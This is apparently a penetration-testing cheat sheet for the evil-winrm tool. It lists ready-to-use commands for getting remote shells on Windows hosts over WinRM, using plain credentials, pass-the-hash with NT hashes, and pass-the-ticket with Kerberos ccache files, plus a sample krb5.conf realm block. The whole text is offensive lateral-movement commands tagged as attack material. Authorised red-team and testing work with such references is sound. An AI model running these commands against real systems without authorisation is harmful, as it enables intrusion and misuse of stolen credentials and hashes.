 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p <password>
```
## domain account with creds
```bash
evil-winrm -i <ip> -u <user>@<domain_fqdn> -p <password>
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <nt_hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u <user>@<domain_fqdn> -H <nt_hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ccache> && evil-winrm -i <target_fqdn>  --realm <domain_fqdn>
```